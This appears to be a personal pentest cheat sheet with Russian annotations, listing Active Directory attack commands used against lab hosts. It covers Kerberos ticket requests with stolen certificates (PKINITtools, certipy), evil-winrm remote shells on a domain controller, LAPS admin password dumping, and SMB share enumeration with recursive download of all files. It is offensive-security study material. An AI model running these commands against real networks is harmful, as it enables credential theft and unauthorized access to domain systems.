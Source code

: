  python3 PKINITtools/gettgtpkinit.py -cert-pem ipWe9rd5_cert.pem -key-pem ipWe9rd5_priv.pem rebound.htb/winrm_svc ipWe9rd5.ccache 	(получение билета керберос)

 python3 gettgtpkinit.py -dc-ip 172.16.117.3 -cert-pfx ws01.pfx 'INLANEFREIGHT.LOCAL/WS01$' ws01.ccache

 export KRB5CCNAME=ipWe9rd5.ccache

 evil-winrm -i dc01.rebound.htb -r rebound.htb


 certipy-ad auth -pfx baker.pfx -dc-ip 10.10.11.69

 
 # Получение пароля LAPS Admin

	Юзер состоит в групе LAPS Admin
	
		https://github.com/n00py/LAPSDumper.git
    	
		$ python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local

  		В Виндовс Laps

		https://github.com/leoloobeek/LAPSToolkit.git
	
		Find-AdmPwdExtendedRights -Identity * (THMorg)
		runas /netonly /user:bk-admin "cmd.exe"
		Get-AdmPwdPassword -ComputerName Creds-Harvestin

	

 

# Сетевые шары

# SMB

smbcacls -N '//10.10.10.103/Department Shares'

smbclient -L 10.10.217.189 - подключение по смб

smbclient --no-pass //10.10.217.189/Users -смотрим папки

smbclient //10.10.218.125/users -c 'recurse;ls'   (Ркурсивно просмотреть все шары)

*** Скачать рекурсивно все файлы изнутри

smb: \> recurse on
smb: \> prompt off
smb: \> mget *



smbclient //192.168.50.232/Users -U ''

smbclient -N //192.168.50.232/Users 

smbclient //192.168.50.232/Users -U Alexs
